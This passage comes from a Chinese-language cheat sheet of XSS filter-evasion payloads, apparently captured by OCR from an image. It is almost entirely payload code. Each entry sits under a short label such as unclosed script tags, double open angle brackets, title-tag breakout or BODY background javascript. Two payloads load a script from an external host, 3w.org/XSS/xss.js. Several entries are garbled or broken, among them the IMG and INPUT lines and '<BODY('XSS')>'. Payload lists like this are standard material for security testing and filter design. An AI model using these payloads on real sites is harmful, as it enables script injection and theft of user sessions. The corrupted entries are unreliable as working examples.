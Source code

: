   ```
  <<SCRIPT>alert(“XSS”);//<</SCRIPT>
  ```

- **无结束脚本标记(仅火狐等浏览器)**，示例如下：

  ```
  <SCRIPT SRC=http://3w.org/XSS/xss.js?<B>
  ```

- **无结束脚本标记2**，示例如下：

  ```
  <SCRIPT SRC=//3w.org/XSS/xss.js>
  ```

- **半开的HTML/JavaScript XSS**，示例如下：

  ```
  <IMG SRC=\'#\'" /span>
  ```

- **双开角括号**，示例如下：

  ```
  <iframe src=http://3w.org/XSS.html <
  ```

- **无单引号 双引号 分号**，示例如下：

  ```
  <SCRIPT>a=/XSS/
  alert(a.source)</SCRIPT>
  ```

- **换码过滤的JavaScript**，示例如下：

  ```
    \”;alert(‘XSS’);//
  ```

- **结束Title标签**，示例如下：

  ```
  </TITLE><SCRIPT>alert(“XSS”);</SCRIPT>
  ```

- **Input Image**，示例如下：

  ```
  <INPUT SRC=\'#\'" /span>
  ```

- **BODY Image**，示例如下：

  ```
  <BODY BACKGROUND=”javascript:alert(‘XSS’)”>
  ```

- **BODY标签**，示例如下：

  ```
  <BODY(‘XSS’)>
  ```
